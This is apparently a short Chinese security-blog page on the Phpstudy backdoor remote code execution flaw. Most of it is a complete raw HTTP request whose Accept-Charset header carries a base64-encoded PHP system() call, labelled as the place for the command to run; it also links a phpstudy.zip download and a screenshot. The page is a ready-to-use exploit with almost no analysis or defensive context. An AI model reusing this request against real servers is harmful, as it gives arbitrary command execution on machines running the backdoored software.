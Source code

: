 # Phpstudy 后门 RCE



版本一

```
GET /1.php HTTP/1.1
Host: hedysx.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,_/_;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding:gzip,deflate
Accept-Charset:这里就是要执行的命令 base64 加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
Connection: close
```

版本二：  
[phpstudy](https://www.hedysx.com/wp-content/uploads/2019/09/phpstudy.zip)

[![](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10-1024x529.png)](https://www.hedysx.com/wp-content/uploads/2019/09/hedysx.com_2019-09-23_13-38-10.png)

[](javascript:;)[0](#comments)
